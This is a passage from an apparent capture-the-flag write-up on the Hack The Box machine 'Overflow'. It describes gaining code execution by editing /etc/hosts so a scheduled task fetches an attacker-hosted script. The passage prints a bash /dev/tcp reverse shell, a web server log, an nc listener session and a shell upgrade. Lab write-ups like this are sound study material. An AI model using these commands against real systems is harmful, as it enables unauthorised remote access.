 ### RCE

I’ll set my IP to taskmanage.overflow.htb in `/etc/hosts`:

```

developer@overflow:~$ echo -e "10.10.14.6\ttaskmanage.overflow.htb"
10.10.14.6      taskmanage.overflow.htb
developer@overflow:~$ echo -e "10.10.14.6\ttaskmanage.overflow.htb" >> /etc/hosts

```

I’ll create a simple reverse shell as `task.sh`:

```

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.6/443 0>&1

```

And I’ll start a Python web server in the directory with `task.sh`. When the minute rolls over, there’s a hit on the server:

```

oxdf@hacky$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.119 - - [28/Sep/2021 16:08:02] "GET /task.sh HTTP/1.1" 200 -

```

And then a reverse shell as tester:

```

oxdf@hacky$ nc -lnvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.119.
Ncat: Connection from 10.10.11.119:51820.
bash: cannot set terminal process group (15402): Inappropriate ioctl for device
bash: no job control in this shell
tester@overflow:~$ 

```

I’ll upgrade my shell:

```

tester@overflow:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
tester@overflow:~$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
tester@overflow:~$ 

```
